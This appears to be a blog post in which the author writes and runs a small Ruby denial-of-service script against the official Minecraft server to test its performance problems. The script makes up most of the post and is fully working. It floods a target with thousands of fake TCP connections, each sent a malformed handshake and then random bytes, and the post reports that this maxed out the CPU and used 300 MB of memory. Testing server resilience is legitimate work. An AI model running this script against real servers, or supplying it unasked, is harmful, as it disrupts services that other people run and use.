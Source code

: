 Minecraft DoS
=============

As I talked about in [this](#page=blog/posts/craftd.md&type=blog) post, the official Minecraft
server has few performance problems.

Well, I wanted to test it myself to see what was really going on, not liking Python and not wanting
to install twisted and such I wrote a small Ruby script to simulate the same thing.

    #! /usr/bin/env ruby
    require 'socket'
    require 'thread'

    HOST, PORT = ARGV.shift.split(':') + [25565]
    COUNT      = ARGV.shift || 2000

    sockets = Class.new(Array) {
      def initialize (number)
        @number = number
      end

      def spawn
        self.each {|s|
          self.delete(s) if s.closed?
        }

        to_spawn = @number - self.length

        if to_spawn > 0
          puts "Spawning #{to_spawn} fake connections"

          1.upto(to_spawn) {
            socket = TCPSocket.new(HOST, PORT)
            socket.write_nonblock("\x02\xff\xff")

            self << socket
          }
        end
      end
    }.new(COUNT)

    thread = Thread.new {
      loop do
        sockets.each {|socket|
          begin
            socket.write_nonblock((rand * 255).floor.chr)
          rescue Exception => e
            socket.close rescue nil
          end
        }

        begin; sockets.spawn; rescue; break; end

        sleep 0.5
      end
    }

    thread.join

Well, the result was that the server still let people inside, but it created "Threads: 650 + 650",
used 300 MB of memory for nothing and kept the CPU at 100%.

Not a good result but not even an apocalyptic one.
